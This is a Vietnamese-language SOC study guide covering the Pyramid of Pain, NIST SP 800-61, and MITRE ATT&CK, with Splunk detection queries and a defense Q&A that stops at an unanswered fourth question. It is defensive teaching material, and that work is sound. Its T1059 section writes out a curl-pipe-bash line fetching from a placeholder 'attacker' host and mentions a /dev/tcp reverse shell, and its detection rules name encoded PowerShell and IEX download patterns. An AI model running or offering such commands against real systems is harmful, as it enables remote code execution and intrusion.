




#### Ma trận Phân Tích 6 Tầng Pyramid of Pain

| Tầng Indicator | Mức độ đau đớn của Attacker | Ví dụ thực tế | Cách thức Defender ứng dụng trong SIEM / SOC |
| :--- | :--- | :--- | :--- |
| **Hash Values** | **Trivial** (Không đáng kể) | `e3b0c44298fc1c149afbf4c8996fb924...` | Import Hash Blacklist vào AV/EDR. Hiệu lực cực ngắn. |
| **IP Addresses** | **Easy** (Rất dễ thay) | `192.168.50.100`, `45.33.32.156` | Blocklist trên Firewall. Attacker đổi VPS/Proxy trong vài giây. |
| **Domain Names** | **Simple** (Tương đối dễ) | `update-microsoft-cloud[.]com` | DNS Firewall / Pi-hole / Sinkhole. Mất phí đăng ký domain mới. |
| **Artifacts** | **Annoying** (Bắt đầu khó chịu) | User-Agent lạ, URI `/dvwa/hackable/...`, Mutex | Viết Snort/Suricata Rule, YARA scan RAM/Disk. |
| **Tools** | **Challenging** (Rất tốn công) | `procdump64.exe`, `chisel`, `evil-winrm` | Nhận diện hành vi đặc trưng của tool (bất kể bị đổi tên). |
| **TTPs** | **Tough** (Khó khăn tối đa) | Dump LSASS bằng API, Sudo GTFOBins, DLL Hijack | Xây dựng Behavioral Detection Rules trên SIEM (Splunk / Elastic). |

---

### 3.3 NIST SP 800-61: Incident Response Methodology

**NIST SP 800-61** (do Viện Tiêu chuẩn và Công nghệ Quốc gia Mỹ ban hành) là bộ tiêu chuẩn vàng toàn cầu định hình quy trình ứng phó và xử lý sự cố an ninh mạng.






#### Tiến Hóa Từ NIST SP 800-61 Rev 2 Sang Rev 3 (Tích Hợp NIST CSF 2.0)





| Tiêu chí | NIST SP 800-61 Rev 2 | NIST SP 800-61 Rev 3 (2025) |
| :--- | :--- | :--- |
| **Triết lý tiếp cận** | Quy trình xử lý sự cố thực dụng theo 4 pha nối tiếp. | Gắn chặt Incident Response với **Quản trị Rủi ro Toàn diện (Risk Management)**. |
| **Khung tham chiếu** | Độc lập theo mô hình vòng lặp 4 bước. | Ánh xạ trực tiếp vào 6 Function của **NIST CSF 2.0**: ==Govern $\rightarrow$ Identify $\rightarrow$ Protect $\rightarrow$ Detect $\rightarrow$ Respond $\rightarrow$ Recover==. |
| **Tính linh hoạt** | Tập trung nhiều vào On-premise Infrastructure. | Tối ưu cho môi trường Cloud, Multi-tenant, Supply Chain và API Integrations. |

---

## 4. Khung Chiến Thuật MITRE ATT&CK Framework Toàn Diện

### 4.1 Tổng quan và Cấu trúc Phân cấp




**MITRE ATT&CK** (Adversarial Tactics, Techniques, and Common Knowledge) là cơ sở tri thức toàn cầu tổng hợp từ hàng chục nghìn vụ tấn công thực tế trong tự nhiên (*in the wild*).



### Ma Trận Toàn Diện 14 Tactics Trong Enterprise Matrix:

| STT | Tactic Name | Tactic ID | Mục Tiêu Của Kẻ Tấn Công (Why) | Nguồn Telemetry Thu Thập | Các Kỹ Thuật Điển Hình (Top Techniques) |
| :---: | :--- | :---: | :--- | :--- | :--- |
| **1** | **Reconnaissance** | `TA0043` | Thu thập thông tin, lập bản đồ tài nguyên nạn nhân | Network Traffic, WAF Logs, OSINT | **T1595** Active Scanning, **T1590** Gather Victim Network Info |
| **2** | **Resource Development** | `TA0042` | Mua domain, lập hạ tầng C2, chuẩn bị tài khoản | Threat Intel, Domain Registrars | **T1583** Acquire Infrastructure, **T1587** Develop Capabilities |
| **3** | **Initial Access** | `TA0001` | Đột nhập thành công vào mạng nội bộ lần đầu | Email Gateway, Firewall, VPN Logs | **T1566** Phishing, **T1190** Exploit Public-Facing Application |
| **4** | **Execution** | `TA0002` | Thực thi mã độc trên máy nạn nhân | Process Creation (Sysmon 1 / 4688), EDR | **T1059** Command và Scripting, **T1204** User Execution |
| **5** | **Persistence** | `TA0003` | Duy trì quyền kiểm soát qua các lần khởi động lại | Registry Run Keys, Task Scheduler, Services | **T1053** Scheduled Task, **T1547** Boot or Logon Autostart |
| **6** | **Privilege Escalation** | `TA0004` | Leo thang đặc quyền lên SYSTEM / Root / Domain Admin | Kernel Event, Access Token, Sudo Logs | **T1068** Exploitation for Priv Escalation, **T1548** Abuse Elevation |
| **7** | **Defense Evasion** | `TA0005` | Vô hiệu hóa Antivirus/EDR, xóa log, làm rối mã | Sysmon 4/10, Event 1102 (Log Cleared) | **T1027** Obfuscated Files, **T1562** Impair Defenses |
| **8** | **Credential Access** | `TA0006` | Đánh cắp mật khẩu, trích xuất mã băm, vé Kerberos | Event 4768/4769, Sysmon 10 (LSASS Access) | **T1003** OS Credential Dumping, **T1558** Steal Kerberos Tickets |
| **9** | **Discovery** | `TA0007` | Thám sát hệ thống mạng nội bộ, quét cổng, đọc AD | Command Line (net.exe, whoami, nltest) | **T1087** Account Discovery, **T1018** Remote System Discovery |
| **10** | **Lateral Movement** | `TA0008` | Di chuyển ngang sang các máy chủ khác | Event 4624 (Logon Type 3), WinRM, SMB | **T1021** Remote Services (RDP/SMB), **T1550** Use Alternate Auth |
| **11** | **Collection** | `TA0009` | Thu thập dữ liệu mật, chụp màn hình, bắt phím | File Access, Clipboard (Sysmon 24) | **T1115** Clipboard Data, **T1113** Screen Capture, **T1005** Data from Local |
| **12** | **Command and Control** | `TA0011` | Duy trì kênh điều khiển C2 với máy chủ hacker | Proxy, DNS Tunnel (Sysmon 22), Netflow | **T1071** Application Layer Protocol, **T1572** Protocol Tunneling |
| **13** | **Exfiltration** | `TA0010` | Đánh cắp và tuồn dữ liệu ra ngoài Internet | Firewall Egress, Cloud Storage, DLP | **T1048** Exfiltration Over Alternative Protocol, **T1567** Cloud Storage |
| **14** | **Impact** | `TA0040` | Mã hóa ransomware, xóa bản sao lưu, phá hoại | Volume Shadow Copy (vssadmin), File IO | **T1486** Data Encrypted for Impact, **T1490** Inhibit System Recovery |

---

### 4.2 Phân Tích Chuyên Sâu 3 Techniques Cốt Lõi

---

#### Technique 1: T1595: Active Scanning (Tactic: Reconnaissance)


Kẻ tấn công chủ động gửi các gói tin thăm dò trực tiếp đến dải mạng công khai của nạn nhân nhằm lập bản đồ tài nguyên và tìm kiếm điểm yếu sơ hở.



* **Sub-technique T1595.001: Scanning IP Blocks**: Gửi ping ICMP hoặc TCP SYN Sweep trên toàn dải `/24` để tìm kiếm các cổng quản trị mở (`22`, `80`, `443`, `3389`, `8080`).
* **Sub-technique T1595.002: Vulnerability Scanning**: Quét lỗ hổng tự động thông qua Banner Grabbing (nhận diện phiên bản Apache/Nginx lỗi thời) hoặc gửi request trigger CVE đã biết (Nessus, Nuclei).
* **Sub-technique T1595.003: Wordlist Scanning**: Dùng từ điển brute-force URL paths (`ffuf`, `gobuster`, `dirsearch`) tìm file nhạy cảm (`config.inc.php`, `.git/`, `.env`, `/phpmyadmin/`).

##### Chiến lược Phòng thủ và Splunk Detection:
- **Hardening**: Ẩn Header `Server`, tắt Directory Indexing, triển khai Rate-Limiting trên WAF/Cloudflare.
- **SPL Detection**: Phát hiện địa chỉ IP sinh ra lượng lớn HTTP 404 trong thời gian ngắn:
```bash
index=web_logs status=404
| bin _time span=1m
| stats count as not_found_count, dc(uri_path) as unique_paths by clientip, host, _time
| where not_found_count > 50
| sort -not_found_count
```

---

#### Technique 2: T1566: Phishing (Tactic: Initial Access)


Phishing chiếm trên 40% nguyên nhân dẫn đến các vụ xâm nhập mạng doanh nghiệp toàn cầu.



* **T1566.001: Spearphishing Attachment**: Đính kèm file văn bản ngụy trang hóa đơn/CV chứa mã macro VBA, file `.iso` (nhằm bypass cơ chế **Mark of the Web - MOTW** của Windows), hoặc kỹ thuật **HTML Smuggling** (nhúng payload base64 vào JavaScript để decode khi mở trình duyệt).
* **T1566.002: Spearphishing Link**: Dẫn dụ nạn nhân bấm vào link đăng nhập giả mạo (sử dụng AitM Reverse Proxy như Evilginx2 để đánh cắp cả Session Cookie và vượt qua MFA).
* **T1566.003: Spearphishing via Service**: Sử dụng các nền tảng mạng xã hội thứ 3 (LinkedIn, Teams, Slack) nơi không có sự kiểm soát của Secure Email Gateway (SEG).
* **T1566.004: Spearphishing Voice (Vishing)**: Gọi điện thoại giả danh hỗ trợ kỹ thuật IT yêu cầu cấp quyền AnyDesk/TeamViewer.

##### Chiến lược Phòng thủ và Splunk Detection:
- **Hardening**: Cấu hình chuẩn SPF, DKIM, DMARC (`p=reject`); vô hiệu hóa Macro trên Office từ internet; bật FIDO2 / Phishing-Resistant MFA.
- **SPL Detection**: Phát hiện tiến trình Office sinh ra tiến trình thực thi CLI:
```bash
index=windows_sysmon EventCode=1
    ParentImage IN ("*\\winword.exe", "*\\excel.exe", "*\\powerpnt.exe", "*\\outlook.exe")
    Image IN ("*\\cmd.exe", "*\\powershell.exe", "*\\powershell_ise.exe", "*\\mshta.exe", "*\\wscript.exe", "*\\cscript.exe")
| table _time host User ParentImage Image CommandLine
```

---

#### Technique 3: T1059: Command và Scripting Interpreter (Tactic: Execution)



Kỹ thuật lạm dụng các trình thông dịch có sẵn và được tin cậy trong hệ điều hành (*Living Off The Land - LOLBins*) để thực thi mã độc.



* **T1059.001: PowerShell**: Công cụ tấn công nguy hiểm nhất trên Windows. Cho phép thực thi trực tiếp trên RAM (*Fileless Malware*), mã hóa lệnh qua `-EncodedCommand <Base64>`, tải mã qua `Invoke-Expression (IEX)`.
* **T1059.003: Windows Command Shell (`cmd.exe`)**: Thường dùng để chạy các lệnh batch chaining, trích xuất cấu hình hệ thống hoặc tạo scheduled task ẩn.
* **T1059.004: Unix Shell (`bash`, `sh`)**: Kỹ thuật *Curl-pipe-bash* (`curl http://attacker/pay.sh | bash`) hoặc Reverse TCP Shell trực tiếp qua `/dev/tcp/IP/PORT`.

##### Chiến lược Phòng thủ và Splunk Detection:
- **Hardening**: Kích hoạt **PowerShell Constrained Language Mode (CLM)**, bật **Script Block Logging (EventCode 4104)** và **Process Creation Include CommandLine (EventCode 4688 / Sysmon 1)**.
- **SPL Detection**: Bắt các tham số dòng lệnh PowerShell đáng ngờ:
```bash
index=windows_sysmon EventCode=1 (Image="*\\powershell.exe" OR Image="*\\pwsh.exe")
| where match(CommandLine, "(?i)(-enc|-encodedcommand|-w\s+hidden|-windowstyle\s+hidden|-nop|-noprofile|-exec\s+bypass|downloadstring|iex\s*\(|invoke-expression)")
| table _time host User ParentImage Image CommandLine
```

---

## 5. Tổng Kết và Ma Trận Đối Chiếu Giữa Các Khung Bảo Mật



### Bảng Ma Trận Tích Hợp 4 Khung Bảo Mật trong Thực Tế Vận Hành SOC

| Khung Phương Pháp Luận | Trả lời câu hỏi gì? | Vai trò chính trong SOC | Tình huống áp dụng cụ thể |
| :--- | :--- | :--- | :--- |
| **Cyber Kill Chain** | *Attacker đang ở đâu trong tiến trình tấn công?* | Cung cấp bức tranh toàn cảnh (Big Picture); giúp Analyst dự đoán bước đi tiếp theo. | Định vị Alert thuộc bước Reconnaissance hay Lateral Movement để điều động nguồn lực. |
| **MITRE ATT&CK** | *Attacker thực hiện bước đó bằng kỹ thuật cụ thể nào?* | Tiêu chuẩn hóa ngôn ngữ điều tra; cung cấp chi tiết kỹ thuật cho Detection Engineering. | Viết Rule phát hiện PowerShell Obfuscation hoặc Privilege Escalation qua Sudo. |
| **Pyramid of Pain** | *Nên đầu tư phát hiện ở tầng nào để gây khó khăn tối đa?* | Đánh giá giá trị của Indicators; tối ưu hóa chi phí đầu tư phòng ngự lâu dài. | Chuyển dịch trọng tâm từ chặn IP/Hash sang xây dựng luật bắt TTPs hành vi. |
| **NIST SP 800-61** | *Khi sự cố xảy ra, ta phải làm gì theo đúng quy trình?* | Bản thiết kế quy trình vận hành phản ứng sự cố (Incident Response Lifecycle). | Kích hoạt kịch bản Containment, lập Incident Timeline, hoàn thiện báo cáo rút kinh nghiệm. |

---

## 6. Bộ Câu Hỏi Bảo Vệ và Vấn Đáp Chuyên Sâu (Presentation Defense Q&A)

> [!faq]- Q1: Tại sao mô hình Cyber Kill Chain được coi là "compass định hướng" thay vì "bản đồ tuyến tính"?
> - **Trả lời**: Trong thực tế, các nhóm tấn công hiện đại (APT/Ransomware) không đi theo đường thẳng từ bước 1 đến bước 7. Sau khi xâm nhập thành công vào một máy chủ nội bộ (bước 4-5), họ thường **quay vòng lại bước 1 (Internal Reconnaissance)** và bước 4 (Internal Exploitation) để mở rộng sang các hệ thống khác. Do đó, Kill Chain giúp ta định vị trạng thái hiện tại chứ không phải một kịch bản cố định.

> [!faq]- Q2: Sự khác biệt bản chất giữa NIST SP 800-61 Rev 2 và Rev 3 là gì?
> - **Trả lời**: 
> - **Rev 2**: Tập trung thuần túy vào quy trình kỹ thuật 4 pha (*Preparation $\rightarrow$ Detection/Analysis $\rightarrow$ Containment/Eradication/Recovery $\rightarrow$ Post-Incident*).
> - **Rev 3 (2025)**: Mở rộng tiếp cận theo hướng **Quản trị rủi ro an ninh mạng**, ánh xạ trực tiếp vào 6 chức năng của **NIST CSF 2.0** (*Govern, Identify, Protect, Detect, Respond, Recover*), gia tăng tính thích ứng với môi trường Cloud, chuỗi cung ứng và yêu cầu tuân thủ pháp lý toàn cầu.

> [!faq]- Q3: Tại sao việc viết Rule phát hiện ở tầng TTPs (Pyramid of Pain) lại gây đau đớn nhất cho Attacker nhưng lại khó nhất cho Defender?
> - **Trả lời**: 
> - **Đối với Attacker**: TTPs là thói quen, quy trình và phương pháp luận vận hành. Để đổi TTPs, đối phương phải đào tạo lại hacker, nghiên cứu kỹ thuật mới, viết lại toàn bộ công cụ $\rightarrow$ Tốn kém hàng tháng trời và hàng trăm nghìn USD.
> - **Đối với Defender**: TTPs sử dụng chính các tính năng và công cụ hợp pháp của OS (PowerShell, WMI, Sudo, SSH). Việc phân biệt đâu là hành vi quản trị hợp lệ của IT Admin và đâu là hành vi độc hại của Attacker đòi hỏi hiểu biết sâu về ngữ cảnh và rất dễ sinh **False Positive** nếu rule không được tinh chỉnh chuẩn xác.

> [!faq]- Q4: Làm thế nào để giải quyết vấn đề Alert Fatigue trong SOC một cách triệt để?
